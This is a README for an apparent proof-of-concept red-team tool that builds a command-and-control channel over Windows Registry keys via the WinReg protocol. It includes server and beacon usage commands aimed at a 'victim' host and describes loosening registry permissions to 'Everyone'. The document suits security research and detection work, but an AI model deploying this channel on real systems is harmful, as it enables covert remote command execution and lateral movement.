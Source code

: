 # Everything Can Be A Shell... An asynchronous shell at least...


### Disclaimer
The shells in this repository are all Proof-of-Concept and have only been tested in my own lab. Enjoy :)
*... Also, at this moment, the repository only contains a single shell based on Windows Registry keys. However, I do hope to add more in the future. *

### The Concept
This repository is made to explore untraditional ways of establishing command and control (C2) on Microsoft Windows systems and to keep the SOC on its toes. The shells in this repository are asynchronous just like Cobalt Strikes shells. The client (beacon) will check-in at a given interval (sleep-timer) for any new commands from the server (C2). If a command is found, the beacon will execute it and post the result back to the server. 

# Shell 1: C2 using Windows registry keys

## Brief description: 
This shell is based on Windows Registry keys. Yes, registry keys as in regedit.exe. The idea comes from the fact, that Windows allows for users (with the correct permissions) to read, write and/or delete registry keys and values on remote systems using the WinReg Protocol (MS-RRP). The "protocol" is built on top of the RPC protocol and is described by Microsoft: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

**Demonstration:**
(https://www.youtube.com/watch?v=jOPCbK-WF1M): The C2 server is running on the left while the beacon is on the right

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the client needs to be permitted to make changes to a user-defined registry key.

**Limitations:** 
Since the traffic is based on RPC and SMB, it should only really be suitable for lateral movement on local networks. 

**Security considerations:**
The permissions allows for anyone to connect to the servers registry database. Each registry key is protected by its own SACL, and so the server is only as insecure as the applied permissions on other keys. Consequences could potentially be dire :D

## How it works:  
1. When the server starts, the Remote Registry Service is enabled and started. 
2. A registry key HKLM\Software\RegistryC2\\<user-defined> is created along with the following values: cmd, output & sleep. The user-defined registry key is specific to a single beacon and could be compared to setting up a listener.
3. Read/Write permissions are then set for the user "Everyone" on this newly created registry key.
4. Permissions are likewise set on the key: HKLM\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that any client can authenticate to the server. (Note: On exiting/closing the server, these permissions are removed again.) 
5. When executing the beacon on the victim machine, it will connect to the C2 server using the WinReg protocol, and read the newly created registry key for the value of "sleep", to determine how often to check-in. 
6. When the timer is up, the client checks-in and executes the command found in the "cmd"-value. 
7. The result of the command is written as a string to the "output" value. 
8. While running, the server will look for new updates to the "output" value and prints it back to the attacker.
  
## Usage:
**Setup the server on the attackers machine (listener/C2):**
``` 
RegC2Server.exe <Registry key name to use with the client>
Example: RegC2Server.exe victim01
```
**Starting the client on the victim (beacon):**
```
RegC2Client.exe <host> <Registry key name used to start the server>
Example: RegC2Client.exe ws01 victim01
```

**Since this is a PoC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <command>    cmd to execute
exit             Exit the application gracefully
```


## Screenshots:
**Starting the server:**  
Below, the server is started with the argument "victim01". The Remote Registry Service is attempted to be started, and the necessary permissions are put in place. The Registry key HKLM\Software\RegistryC2\victim01 is created with its necessary values: cmd, output & sleep. 
<img src="https://user-images.githubusercontent.com/35890107/186360543-a9bf7634-ea0d-4a0c-a9e5-4956701e0af3.png" width=60% height=60%>
&nbsp;  
&nbsp;  
**Permissions are set:**  
Special permissions are set for "Everone" on the Registry key "RegistryC2\victim01".  
<img src="https://user-images.githubusercontent.com/35890107/186360608-0ac3a430-912b-4a19-824d-3cfdedb5201b.png" width=60% height=60%>
&nbsp;  
&nbsp;  
**Beacon running on client:**  
The beacon is started on the victims machine. The beacon has updated its sleep-timer, found the command to execute and posted the result back to the C2-server.  
<img src="https://user-images.githubusercontent.com/35890107/186356461-715947b2-5926-40fe-9d9f-2264ebe20476.png" width=30% height=30%>
&nbsp;  
&nbsp;  
**Output is posted back to the server:**  
<img src="https://user-images.githubusercontent.com/35890107/186360638-91884a40-eaa8-4169-a148-95d14b26b894.png" width=60% height=60%>
&nbsp;  
&nbsp;  
**Another command is executed:**  
<img src="https://user-images.githubusercontent.com/35890107/186360670-a328752d-8221-4811-8ae1-0453c211ff03.png" width=60% height=60%>
&nbsp;  
&nbsp;  
**Exiting server:**  
The server is being closed and the Registry keys are no longer available.
<img src="https://user-images.githubusercontent.com/35890107/186360706-dce99907-6027-4bad-abc4-ade26429fe41.png" width=60% height=60%>


## How does it look in Wireshark? 
Well, it's not pretty. First, protocols are being negotiated using SMB and a connection is made for IPC$ followed by a request for "winreg".
<img src="https://user-images.githubusercontent.com/35890107/186396507-e940f94e-feea-4e72-b0b7-8041fe696377.png" width=80% height=80%>
&nbsp;  
&nbsp;
Scrolling down, the protocols are switched to DCERPC and WINREG. We also see a "QueryValue" request and response. 
<img src="https://user-images.githubusercontent.com/35890107/186397638-300e0e07-c927-4a96-833f-bcb7499cc8aa.png" width=80% height=80%>
&nbsp;  
&nbsp;  
Interestingly, on examining the Winreg protocols QueryValue, we see that all the daya is placed in an "Encrypted stub data" meaning that commands between the C2 and the beacon are encrypted by default, which is quite nice. 
<img src="https://user-images.githubusercontent.com/35890107/186397649-2033e1ca-a853-4ab0-a2b2-ef1c55e8c711.png" width=80% height=80%>


